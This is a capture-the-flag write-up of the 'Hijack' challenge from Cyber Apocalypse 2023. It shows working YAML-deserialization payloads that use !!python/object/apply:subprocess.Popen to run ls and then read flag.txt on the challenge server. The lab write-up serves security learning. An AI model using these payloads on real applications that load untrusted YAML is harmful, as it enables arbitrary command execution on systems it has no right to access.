 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2023 | Hijack Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2023
parent: cyber_apocalypse_2023
category: misc
challenge: Hijack
tags: "misc, starry"
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2023</h1>

## Hijack
> Solved by Starry-Lord


![](https://i.imgur.com/c1ZeYkj.png)


Connect with nc to the docker instance, then create a config and decode the base 64. We can see it gives back YAML syntax so we can try to inject commands with subprocess.Popen:

After base64 encoding it, and using the “Load config” option, This worked!

    !!python/object/apply:subprocess.Popen
    - ls

I had to dig a little more to find how to give arguments to the command:


    !!python/object/apply:subprocess.Popen
    - !!python/tuple
      - ls
      - -la

  
And solved:

```
!!python/object/apply:subprocess.Popen
- !!python/tuple
  - cat
  - flag.txt
```

![](https://i.imgur.com/b0l46TJ.png)

